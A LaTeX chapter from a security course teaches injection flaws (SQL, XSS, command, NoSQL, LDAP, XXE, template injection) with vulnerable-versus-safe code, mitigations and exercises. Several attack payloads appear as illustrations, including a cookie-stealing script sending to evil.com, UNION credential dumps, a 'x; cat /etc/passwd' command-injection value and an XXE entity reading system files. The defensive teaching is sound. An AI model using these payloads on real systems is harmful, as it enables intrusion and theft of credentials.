% SC4013 --- Chapter 3: Injection -- SQLi, XSS, XXE and Template Injection (0->100)
\chapter{Injection: When Data Becomes Code}\label{ch:injection}
\setlength{\emergencystretch}{3em}

\begin{quote}
\emph{``Data and code should never be confused.''} --- Every injection flaw is a moment where the program mistakes untrusted input for instructions.
\end{quote}

\noindent\fbox{\parbox{\dimexpr\linewidth-2\fboxsep-2\fboxrule}{%
\textbf{From zero: no injection background assumed.} We start from a vending machine that reads labels as orders, then build the principle that separates data from code. Every flaw---SQL, HTML, XML, template---is shown as the same confusion with different languages. Each payload is explained before it is shown.}}
\vspace{0.4em}

\section*{Learning Outcomes}
After this chapter you will be able to:
\begin{enumerate}[label=(L\arabic*)]
    \item explain the root cause common to all injections (interpreter confusion);
    \item craft and mitigate classic SQL injection including blind exfiltration;
    \item distinguish stored, reflected and DOM XSS and choose the correct output encoding;
    \item explain XXE and billion-laughs and how to disable external entities;
    \item recognise server-side template injection and its path to remote code execution.
\end{enumerate}

% ============================================================
\section{The Root Cause: Mixing Data and Code}\label{sec:root-cause}
Intuition first. A human clerk reads a form: ``Name: Alice.'' A careless clerk reads ``Name: Alice, and also give me the cash from the register'' and obeys the second sentence because they treat handwriting on the form as an instruction. Computers do the same when they concatenate strings to build a query, an HTML page, or an XML document that is later parsed.

\begin{definition}[Injection]\label{def:injection}
An \emph{injection} occurs when (i) untrusted data is inserted into a string that is later interpreted as code, and (ii) the interpreter cannot tell which parts were intended as data. The fix is always one of: avoid interpretation (parameterisation), escape/encode so data cannot be parsed as code, or reject data that does not fit an allow-list.
\end{definition}

\begin{figure}[h]\centering

\begin{tikzpicture}[scale=0.86, every node/.style={font=\scriptsize}]
  % Left: vulnerable path
  \node[draw,fill=red!12,rounded corners=3pt,minimum width=2.1cm,minimum height=0.75cm,align=center] (user) at (-4.2,1.6) {Attacker\\ \tiny \texttt{' OR 1=1 --}};
  \node[draw,fill=orange!15,rounded corners=3pt,minimum width=2.2cm,minimum height=0.85cm,align=center] (app) at (-1.4,1.6) {App\\ \tiny string concat};
  \node[draw,fill=violet!13,rounded corners=3pt,minimum width=2.4cm,minimum height=0.85cm,align=center] (interp) at (1.6,1.6) {Interpreter\\ \tiny SQL / HTML / XML};
  \node[draw,fill=red!16,rounded corners=3pt,minimum width=2.0cm,minimum height=0.75cm,align=center] (exec) at (4.35,1.6) {Executes\\ \tiny attacker code};
  \draw[->,thick,red!60!black] (user) -- (app) node[midway,above,font=\tiny] {untrusted};
  \draw[->,thick,red!60!black] (app) -- (interp) node[midway,above,font=\tiny] {``SELECT ... ' OR 1=1''};
  \draw[->,thick,red!60!black] (interp) -- (exec);
  % Right / below: safe path
  \node[draw,fill=blue!12,rounded corners=3pt,minimum width=2.1cm,minimum height=0.75cm,align=center] (user2) at (-4.2,-0.55) {User\\ \tiny \texttt{' OR 1=1 --}};
  \node[draw,fill=green!14,rounded corners=3pt,minimum width=2.2cm,minimum height=0.85cm,align=center] (app2) at (-1.4,-0.55) {App\\ \tiny parameterise};
  \node[draw,fill=cyan!13,rounded corners=3pt,minimum width=2.4cm,minimum height=0.85cm,align=center] (interp2) at (1.6,-0.55) {Interpreter\\ \tiny data $=$ data};
  \node[draw,fill=green!14,rounded corners=3pt,minimum width=2.0cm,minimum height=0.75cm,align=center] (safe) at (4.35,-0.55) {Literal compare\\ \tiny no execution};
  \draw[->,thick,blue!60!black] (user2) -- (app2);
  \draw[->,thick,blue!60!black] (app2) -- (interp2) node[midway,above,font=\tiny] {query + bind var};
  \draw[->,thick,green!60!black] (interp2) -- (safe);
  \node[font=\tiny,fill=yellow!12,draw=gray!50,rounded corners=2pt,inner sep=3pt] at (0,-1.7) {Top: concatenation lets data become code. Bottom: parameterisation keeps them separate.};
\end{tikzpicture}
\caption{The universal injection pattern. The upper path treats input as part of the program string; the interpreter parses the attacker's fragment as syntax. The lower path sends code and data on separate channels so the fragment is always a literal.}
\label{fig:injection-pattern}
\end{figure}

All four families in this chapter are instances: SQL injection (query language), Cross-Site Scripting (HTML/JS parser in the victim's browser), XXE (XML entity expansion), and template injection (server-side rendering engine). Real breaches often chain them: a stored XSS payload steals an admin session cookie, the admin session triggers an XXE that reads cloud credentials, and those credentials enable privilege escalation---which is why understanding each interpreter separately matters.

\begin{remark}[Why blacklists always lose]
Trying to strip ``\texttt{<script>}'' or ``\texttt{'}'' from input creates an arms race: browsers accept \texttt{<svg>}, \texttt{<img onerror=>}, \texttt{<iframe srcdoc=>}, and dozens of encodings (URL, HTML entity, Unicode, double-encode) that bypass naive filters. Allow-lists for structured data (numbers, UUIDs, enums) help, but for free-form text the only durable answer is safe handling at the \emph{sink} (parameterise, encode), not filtering at the \emph{source}.
\end{remark}

% ============================================================
\section{SQL Injection (SQLi)}\label{sec:sqli}
Structured Query Language is built by concatenating strings in many tutorials:

\begin{lstlisting}[language=Python]
# VULNERABLE: string interpolation -- attacker controls the query structure
user = request.args["user"]          # attacker sends: ' OR 1=1 --
query = f"SELECT * FROM users WHERE name = '{user}'"
cursor.execute(query)                # becomes: ... WHERE name = '' OR 1=1 --'
# Result: returns every row (authentication bypass / exfiltration)

# SAFE: parameterised query -- data never parsed as SQL
cursor.execute("SELECT * FROM users WHERE name = %s", (user,))
# The driver sends code and data separately; ' OR 1=1 -- is compared literally.
\end{lstlisting}

Classic payloads: \texttt{' OR '1'='1} closes the quote, injects a tautology, and comments out the rest. \texttt{UNION SELECT} appends a second result set to exfiltrate other tables, e.g., \texttt{' UNION SELECT username,password FROM users --} dumps credentials. \emph{Blind} SQLi works even when no rows are echoed: the attacker asks yes/no questions via timing (\texttt{SLEEP(5)}) or boolean pages and reconstructs data bit by bit---slow but fully automated with tools like sqlmap. A second-order injection hides the payload in one request and triggers it in a later query that reuses the stored value.

Why prepared statements fix it: the SQL template is parsed \emph{before} binding; placeholders (\texttt{?}, \texttt{\%s}, \texttt{:name}) are typed as literals, never re-parsed. ORM query builders (SQLAlchemy, Django ORM) and allow-listed sorting columns are also safe; ad-hoc string building never is, even behind an escaping helper that misses edge cases (second-order, LIKE wildcards). Defence in depth adds least-privilege DB accounts (web app should not be \texttt{DBA}), web-application firewalls as a speed bump (not a fix), and error handling that does not echo SQL---verbose errors are an oracle for attackers.

\begin{example}[ORDER BY cannot be parameterised]
\texttt{SELECT * FROM products ORDER BY ?} does not work---placeholders bind values, not identifiers. The safe pattern is an allow-list:
\texttt{allowed = \{"name","price"\}; col = allowed.get(input) or "name"} then \texttt{f"ORDER BY \{col\}"}. Any input outside the set is rejected.
\end{example}

A frequent misconception is that stored procedures are automatically safe: they are only safe when they themselves use parameterised queries internally. A procedure that concatenates its argument into dynamic SQL reintroduces the flaw.

\begin{figure}[h]\centering

\begin{tikzpicture}[scale=0.80, every node/.style={font=\scriptsize}]
  \node[draw,fill=blue!12,rounded corners=3pt,minimum width=2.0cm,minimum height=0.70cm,align=center] (in) at (-4.3,2.0) {Input\\ \tiny $<$\texttt{script}$>$};
  \node[draw,fill=orange!14,rounded corners=3pt,minimum width=1.9cm,minimum height=0.70cm,align=center] (store) at (-1.9,2.0) {Stored?\\ \tiny DB / cache};
  \node[draw,fill=violet!12,rounded corners=3pt,minimum width=1.9cm,minimum height=0.70cm,align=center] (ref) at (0.45,2.0) {Reflected?\\ \tiny URL / form};
  \node[draw,fill=cyan!13,rounded corners=3pt,minimum width=2.1cm,minimum height=0.70cm,align=center] (dom) at (2.95,2.0) {DOM sink?\\ \tiny \texttt{innerHTML}};
  \node[draw,fill=red!14,rounded corners=3pt,minimum width=1.9cm,minimum height=0.80cm,align=center] (exec) at (0.45,0.55) {Browser\\ \tiny executes JS};
  \draw[->,thick,blue!60!black] (in) -- (store); \draw[->,thick,blue!60!black] (store) -- (exec) node[midway,left,font=\tiny,align=center] {stored\\XSS};
  \draw[->,thick,orange!70!black] (in) -- (ref); \draw[->,thick,orange!70!black] (ref) -- (exec) node[midway,right,font=\tiny] {reflected};
  \draw[->,thick,cyan!60!black] (in) -- (dom); \draw[->,thick,cyan!60!black] (dom) -- (exec) node[midway,right,font=\tiny] {DOM};
  \node[font=\tiny,fill=green!10,draw=green!40!black,rounded corners=2pt,inner sep=3pt,align=center] at (0.45,-0.45) {Fix: context-aware encoding -- HTML body, attribute, JS, URL, CSS each need\\different escaping; use framework auto-escaping + CSP; never \texttt{innerHTML} with data.};
  % CSP note
  \node[font=\tiny,fill=yellow!12,draw=gray!50,rounded corners=2pt,inner sep=2pt,align=center] at (-4.3,0.55) {CSP:\\\texttt{script-src 'self'}};
\end{tikzpicture}
\caption{Three XSS delivery paths converge on the same sink: the browser's HTML/JS parser executing attacker-supplied script. Stored payloads live in the database, reflected payloads bounce off the server response, and DOM payloads never leave the client---all require output encoding, not input blacklists.}
\label{fig:xss-types}
\end{figure}

% ============================================================
\section{Cross-Site Scripting (XSS)}\label{sec:xss}
XSS is injection where the \emph{victim's browser} is the interpreter. The attacker plants JavaScript that runs in the victim's origin, so it reads \texttt{document.cookie}, forges requests, and rewrites the page.

\emph{Stored XSS}: payload saved server-side (comment, profile) and later rendered to every visitor. \emph{Reflected XSS}: payload in the URL/query is echoed in the immediate response (search page). \emph{DOM XSS}: client-side JS reads attacker-controlled data (\texttt{location.hash}, \texttt{postMessage}) and writes it to a dangerous sink (\texttt{innerHTML}, \texttt{eval}) without encoding.

The defence is not input filtering (attackers have infinite encodings: \texttt{<svg onload=alert(1)>}, \texttt{<img src=x onerror=alert(1)>}, hex/unicode obfuscation) but \emph{output encoding} appropriate to the context: HTML entity encode in body, attribute encode in \texttt{href}, JavaScript encode in \texttt{<script>}, URL encode in links. A payload that is harmless in HTML body (\texttt{\&lt;script\&gt;}) becomes executable if injected into an existing \texttt{<script>} block without JS encoding. Modern frameworks (React, Vue) auto-escape by default---use that and avoid \texttt{dangerouslySetInnerHTML} / \texttt{v-html}---and add \emph{Content Security Policy} (CSP) as a second layer: \texttt{Content-Security-Policy: script-src 'self'; object-src 'none'} blocks inline scripts even if an injection slips through, while \texttt{trusted-types} can enforce safe sinks. \texttt{HttpOnly} cookies ensure stolen-XSS cannot directly read session IDs, but the attacker can still perform actions as the victim from within the page, so CSP + HttpOnly together raise the bar without replacing encoding.

\begin{remark}[CSP is not an XSS fix]
CSP is defence in depth. A single \texttt{unsafe-inline} or \texttt{script-src *} undoes it; JSONP endpoints and AngularJS gadgets can be abused as script gadgets to bypass a weak policy. Tighten the policy to \texttt{'self'} and nonces/hashes per script.
\end{remark}

\begin{lstlisting}[language=Python]
# VULNERABLE: Jinja2 with |safe bypasses auto-escaping
# comment = "<script>fetch('https://evil.com?c='+document.cookie)</script>"
return render_template_string("Hi {{ name | safe }}", name=comment)  # XSS

# SAFE: auto-escape + |e, CSP header, HttpOnly session
from markupsafe import escape
@app.route("/hi")
def hi():
    resp = make_response(render_template("hi.html", name=request.args["name"]))  
    # hi.html:  <p>Hi {{ name }}</p>  -- auto-escaped; {{ name|e }} explicit
    resp.headers["Content-Security-Policy"] = "script-src 'self'; object-src 'none'"
    return resp
\end{lstlisting}

% ============================================================
\section{Beyond SQL: Command, NoSQL and LDAP Injection}\label{sec:other-injection}
The same confusion appears wherever a string is built and then interpreted. OS \emph{command injection} happens when user input is interpolated into a shell command, e.g., \texttt{subprocess.call(f"convert \{filename\} out.png", shell=True)} where \texttt{filename = "x; cat /etc/passwd"} escapes the intended command and executes \texttt{cat}. The safe pattern is the array form \texttt{subprocess.call(["convert", filename, "out.png"], shell=False)} so shell metacharacters become literals, plus an allow-list \texttt{r"\string^[a-zA-Z0-9\_-]+\string\.png\$"} for file names. Never use \texttt{shell=True} with user data. The same principle applies to \texttt{eval}, \texttt{exec}, and template rendering---any function that parses a string as code must never receive untrusted input as part of that string.

NoSQL injection targets document stores like MongoDB where the query is JSON. Sending \texttt{\{"username":\{"\$ne": null\},"password":\{"\$ne": null\}\}} as JSON can bypass a naive \texttt{find(\{user: input\})} login that expects strings---the operator \texttt{\$ne} is interpreted as code. LDAP injection similarly escapes distinguished names (\texttt{*)(uid=*))(\&(uid=*)} to widen a directory search. In each case the attacker upgrades a data field into an operator. The defence is identical: use the driver's parameterised API, type-check inputs (ensure strings, not objects), enforce a strict schema (e.g., JSON Schema or Mongoose strict mode), and never concatenate into the query language.

A useful mental test before shipping any feature: ``does any path concatenate untrusted input into a string that is later parsed as code, query, or structured document?'' If yes, replace it with a parameterised API now; retrofitting after launch is painful and often incomplete. Code review checklists should include a single question for every data flow that ends in a parser: ``is this parameterised or encoded for the correct context?''

\begin{remark}[Object injection vs. injection]
Some frameworks unserialize objects (PHP \texttt{unserialize}, Python \texttt{pickle}, Java \texttt{ObjectInputStream}) directly from user input. This is injection where the ``language'' is the object graph itself---an attacker crafts a serialized gadget chain that executes on deserialization. Never deserialize untrusted bytes; use JSON with a schema.
\end{remark}

\begin{example}[NoSQL auth bypass concretely]
Suppose login does \texttt{db.users.find(\{user: req.body.user, pass: req.body.pass\})}. An attacker sends \texttt{\{"user":\{"\$gt":""\},"pass":\{"\$gt":""\}\}} as JSON. Both conditions match any non-empty string, so the query returns the first user (often admin) without knowing any password. Fix: enforce \texttt{typeof user === "string"} before querying.
\end{example}

% Injection testing belongs in CI: fail build if probe triggers execution artefact.
% Keep a single source of truth for allow-lists; duplicates inevitably diverge.

% ============================================================
\section{XXE and Server-Side Template Injection}\label{sec:xxe-ssti}
\emph{XML External Entity} (XXE) is injection against XML parsers. XML allows defining entities:

\begin{figure}[h]\centering

\begin{tikzpicture}[scale=0.83, every node/.style={font=\scriptsize}]
  \node[draw,fill=blue!12,rounded corners=3pt,minimum width=5.0cm,minimum height=0.85cm,align=left,font=\tiny] (xml) at (0,1.9) {\texttt{<?xml version="1.0"?>}\\ \texttt{<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>}\\ \texttt{<data>\&xxe;</data>}};
  \node[draw,fill=orange!15,rounded corners=3pt,minimum width=2.2cm,minimum height=0.85cm,align=center] (parser) at (0,0.55) {XML parser\\ \tiny expands entities};
  \node[draw,fill=red!14,rounded corners=3pt,minimum width=2.6cm,minimum height=0.85cm,align=center] (out) at (0,-0.75) {Response contains\\ \texttt{/etc/passwd} or SSRF fetch};
  \draw[->,thick,blue!60!black] (xml) -- (parser) node[midway,right,font=\tiny] {\texttt{SYSTEM} entity};
  \draw[->,thick,red!60!black] (parser) -- (out);
  \node[font=\tiny,fill=green!10,draw=green!40!black,rounded corners=2pt,inner sep=3pt,align=center] at (4.9,0.55) {Mitigation:\\disable DTD /\\external entities\\or use JSON};
  % billion laughs inset
  \node[draw,fill=yellow!15,rounded corners=3pt,minimum width=4.2cm,minimum height=0.75cm,align=center,font=\tiny] at (0,-1.85) {Billion laughs: nested entities expand exponentially $\to$ DoS; disable entity expansion.};
\end{tikzpicture}
\caption{XXE: the attacker declares an external entity pointing to a local file or internal URL. A parser with DTDs enabled fetches and expands it, leaking the file or pivoting to SSRF. The fix is to disable DTD/entity processing entirely.}
\label{fig:xxe}
\end{figure}

If the parser resolves \texttt{SYSTEM} entities, \texttt{\&xxe;} expands to the file contents and is returned, or to an internal URL (SSRF, Ch.~7). The classic ``billion laughs'' nests entities so expansion is exponential---a few hundred bytes become gigabytes---and crashes the server (DoS). Attackers also use XXE to fetch cloud metadata (\texttt{http://169.254.169.254/latest/meta-data/}) or to probe internal ports. Mitigation: disable DTDs and external entities in the parser configuration, set \texttt{expandEntityReferences=false}, limit entity expansion depth, prefer JSON where possible, and patch parser libraries. In Python, use \texttt{defusedxml}; in Java, set \texttt{FEATURE\_SECURE\_PROCESSING} and disallow \texttt{DOCTYPE}.

\emph{Server-Side Template Injection} (SSTI) is similar but the language is the backend template: Jinja2, Twig, Freemarker, ERB. The pattern is \texttt{render(template\_string + user\_input)}. If the user supplies \texttt{\{\{7*7\}\}} and the response is \texttt{49}, the engine evaluates expressions. Traversal to \texttt{\{\{config\}\}} or a chained lookup such as \texttt{\{\{''.\_\_class\_\_...\}\}} reaches code execution in many engines---from there an attacker imports \texttt{os} and runs \texttt{popen("id")}. The fix mirrors SQLi: never build template source from user data; pass data as variables into a fixed template (\texttt{render\_template("hello.html", name=user\_input)}), sandbox the engine with a restricted environment, and restrict attribute access via allow-lists. Detecting SSTI during testing is easy: send \texttt{\{\{7*7\}\}}, \texttt{\$\{7*7\}}, \texttt{<\%= 7*7 \%>} and observe which evaluates.

\begin{remark}[One principle, many languages]
Prepared statements (SQL), parameterised XML parsers (XXE off), auto-escaped templates (XSS), and fixed template sources (SSTI) are all the same idea: keep untrusted input on the data channel so the parser never treats it as instructions. Apply it uniformly and whole classes vanish. Log and monitor injection attempts---repeated probes for \texttt{' OR 1=1}, \texttt{<svg}, or \texttt{\{\{7*7\}\}} are often the earliest signal of an attacker mapping your surface, and alerting on them buys time to patch before exfiltration begins.
\end{remark}

\begin{example}[Testing for injection systematically]
A lightweight test harness sends a single canonical probe per interpreter---\texttt{' OR '1'='1} for SQL, \texttt{<svg onload=alert(1)>} for XSS, \texttt{<!ENTITY xxe SYSTEM "file:///etc/passwd">} for XXE, \texttt{\{\{7*7\}\}} for Jinja2---and asserts that the response contains no execution artefact (row dump, script execution, file content, ``49''). Run this in CI; it catches regressions where a new endpoint bypasses the safe API. Combine with fuzzing dictionaries (SecLists, PayloadsAllTheThings) for depth.
\end{example}

\begin{remark}[Input length is not a boundary]
Truncating input to 100 characters does not prevent injection: \texttt{' OR 1=1 --} is 11 characters, \texttt{<svg onload=alert(1)>} is 22, and \texttt{\{\{7*7\}\}} is 7. Length limits are a usability control, not a security control. Parameterisation works for any length; truncation does not replace it.
\end{remark}

% Note: all injection defences compose with logging+monitoring (Ch.~8).
% Keep parsers updated: new bypasses appear regularly in parser-specific advisories.

% ============================================================
\section{Exercises}\label{sec:ch03-exercises}
\begin{enumerate}[label=E3.\arabic*, leftmargin=*, itemsep=0.6em]
    \item \textbf{SQLi by hand.} Given vulnerable code \texttt{cursor.execute(f"SELECT * FROM accounts WHERE id='\{uid\}'")} and input \texttt{' UNION SELECT password FROM users --}, write the final SQL string the DB sees, explain which rows are returned, and rewrite the code with a parameterised query. How does a least-privilege DB role limit the blast radius?
    \item \textbf{Blind exfiltration.} Design a blind SQLi strategy for a login that only returns ``valid'' vs ``invalid.'' Show how to extract one byte of the admin hash using a timing side channel (\texttt{SLEEP} / conditional delay) and estimate the number of requests to exfiltrate a 32-byte hash. What mitigation besides prepared statements stops the timing oracle?
    \item \textbf{XSS taxonomy.} For a comment feature, a search page, and a single-page app that does \texttt{elem.innerHTML = location.hash.slice(1)}, classify each as stored / reflected / DOM XSS, give a minimal \texttt{<script>} payload for each, and state the correct encoding/CSP defence. Why is input allow-listing alone insufficient?
    \item \textbf{XXE lab.} Write a minimal XML document that, when parsed with external entities enabled, reads \texttt{file:///etc/hosts} and another that triggers an SSRF to \texttt{http://169.254.169.254/latest/meta-data/}. List the exact parser flags to disable in Python (\texttt{lxml} / \texttt{xml.etree}) and Java (\texttt{DocumentBuilderFactory}) to prevent both.
    \item \textbf{SSTI to RCE.} You find \texttt{render\_template\_string("Hello " + user\_input)} in Flask/Jinja2 where input \texttt{\{\{7*7\}\}} renders \texttt{49}. Explain how to progress from arithmetic to reading \texttt{config} and then to remote code execution via class introspection. Propose three fixes that together eliminate the class (fixed template source, sandbox, allow-list).
\end{enumerate}

\section*{Chapter Notes}
OWASP Top 10 A03 Injection aggregates these families; see the OWASP SQL Injection Prevention, XSS Prevention, XXE Prevention and SSTI Cheat Sheets. Classic references: Halfond et al., ``A Classification of SQL-Injection Attacks'' (ICSE 2006); Klein, ``DOM Based Cross Site Scripting'' (2005); Steuck, ``XXE'' (OWASP, 2013--present). For template injection see James Kettle, ``Server-Side Template Injection'' (PortSwigger Research, 2015) and PortSwigger Web Security Academy labs. For hands-on practice, OWASP Juice Shop, DVWA and WebGoat provide intentionally vulnerable apps; Burp Suite and sqlmap automate discovery but manual reasoning about parsers is what prevents the class.
% End of Chapter 3
